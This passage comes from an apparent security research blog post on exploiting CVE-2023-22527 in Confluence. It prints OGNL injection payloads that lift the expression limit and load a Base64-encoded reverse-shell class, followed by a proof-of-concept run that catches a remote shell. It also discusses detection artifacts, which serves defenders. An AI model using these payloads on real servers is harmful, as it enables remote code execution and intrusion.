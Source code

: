 examine each step closer and then look at detection artifacts.\\n\\n### Loading a Class Into Memory\\n\\nTo demonstrate using CVE-2023-22527 to load a class into memory, we’ve published a proof of concept on \[GitHub\](https://github.com/vulncheck-oss/cve-2023-22527/tree/main/reverseshell). If you look at the PoC, you’ll notice there are no \`.java\` or \`.class\` files. The class the exploit loads is a reverse shell generated by the \[go-exploit\](https://github.com/vulncheck-oss/go-exploit/blob/919a2aa0d57f396e70811bf349d10e5504be7987/java/javaclass.go#L33) framework. This is done simply by invoking the following \`java.ReverseShellBytecode\`:\\n\\n\`\`\`go\\nfunc sendShell(conf \*config.Config) bool {\\n // generate the class that Confluence will execute in memory\\n reverseShell, className := java.ReverseShellBytecode(conf)\\n\`\`\`\\n\\nThe reverse shell automatically works on Windows or Linux (see \[source\](https://gist.github.com/j-baines/38eb6d16eed64986a369f7f981f57508)), which is useful because Confluence can be deployed on either operating system.\\n\\nThe problem with the generated class is that it’s much too large for the 200-character OGNL expression limit. The simplest solution is to disable this limit. Using the static function \[ognl.Ognl.applyExpressionMaxLength\](https://javadoc.io/doc/ognl/ognl/latest/index.html), the caller can lift the size restriction high enough to accommodate loading the reverse shell class. The following CVE-2023-22527 exploit lifts the expression limit to 100,000 characters.\\n\\n>\`label=\\u0027+#request.get(\\u0027.KEY\_velocity.struts2.context\\u0027).internalGet(\\n>\\u0027ognl\\u0027).findValue(#parameters.Fvp,{})+\\u0027&Fvp=@ognl.Ognl@applyExpressionMaxLength(100000)\`\\n\\nHaving done that, the attacker is free to load the class. This can be done using Spring’s static \`org.springframework.cglib.core.ReflectUtils.defineClass(String className, byte\[\] b, ClassLoader loader)\`, where \`className\` is a random string, \`b\` is the reverse shell, and \`loader\` is the \[current thread\](https://docs.oracle.com/javase/8/docs/api/java/lang/Thread.html#currentThread--)’s \[class loader\](https://docs.oracle.com/javase%2F7%2Fdocs%2Fapi%2F%2F/java/lang/Thread.html#getContextClassLoader()) via \`currentThread().getContextClassLoader()\`.\\n\\nAs a CVE-2023-22527 exploit, that looks like the following (note, in the following, the class is sent over the wire Base64 encoded and \`Base64Utils.decodeFromString\` is invoked to decode it before passing it to \`defineClass\`):\\n\\n>\`VjI=(@org.springframework.cglib.core.ReflectUtils@defineClass(\\n>'DpLlaMWFG',@org.springframework.util.Base64Utils@decodeFromString('classBytes…'),\\n>@java.lang.Thread@currentThread().getContextClassLoader())).newInstance()&\\n>label=\\u0027+#request.get(\\u0027.KEY\_velocity.struts2.context\\u0027).internalGet(\\n>\\u0027ognl\\u0027).findValue(#parameters.VjI,{})+\\u0027\`\\n\\nThe transition from the OGNL expression to executing the loaded class is the invocation of \[newInstance\](https://docs.oracle.com/javase/8/docs/api/java/lang/Class.html#newInstance--). That will cause the class’s constructor to be executed.\\n\\nOur \[GitHub\](https://github.com/vulncheck-oss/cve-2023-22527/tree/main/reverseshell) proof of concept puts that all together and establishes a reverse shell in memory. \\n\\n\\n\`\`\`sh\\nalbinolobster@mournland:~/cve-2023-22527/reverseshell$ sudo docker run -it --network=host cve-2023-22527 -a -v -e -rhost 10.9.49.97 -rport 8090 -lhost 10.9.49.82 -lport 1270 -ell SUCCESS -fll SUCCESS\\ntime=2024-03-01T18:22:37.114Z level=SUCCESS msg="Target verification succeeded!" host=10.9.49.97 port=8090 verified=true\\ntime=2024-03-01T18:22:37.412Z level=SUCCESS msg="Caught new shell from 10.9.49.97:50109"\\nC:\\Program Files\\Atlassian\\Confluence>whoami\\nnt authority\\network service\\n\\nC:\\Program Files\\Atlassian\\Confluence>\\n\`\`\`\\n\\nAbove, the reader can see we establish a \`cmd.exe\` shell and execute \`whoami\` just like all the \[other APT\](https://gist.github.com/MSAdministrator/7a61025263e279a740835da4b205e6d0#technique-commands-143). Viewed from procmon, we can see the Confluence Tomcat server spin out \`cmd.exe\` subprocesses.\\n\\n!\[Tomcat spinning out cmd.exe in procom\](/blog/confluence-dreams-of-shells/confluence-procmon-cmd.png){:width="100%"}\\n\\nJava or Tomcat spinning out shells is a well-known issue for Confluence, and our friends at SigmaHQ already have a Sigma rule that detects this behavior for CVE-2023-22518 (see: \[SigmaHQ GitHub\](https://github.com/SigmaHQ/sigma/blob/46559388e054e1aff3d7b3d8f41ebead2b690b21/rules-emerging-threats/2023/Exploits/CVE-2023-22518/proc\_creation\_win\_exploit\_cve\_2023\_22518\_confluence\_tomcat\_child\_proc.yml#L29)).\\n\\nBut that isn’t the only thing that makes class loading a tight reverse shell a bad idea for an attacker. Our implementation holds open the HTTP connection, which triggers the following stack in Confluence’s \`stderr\` log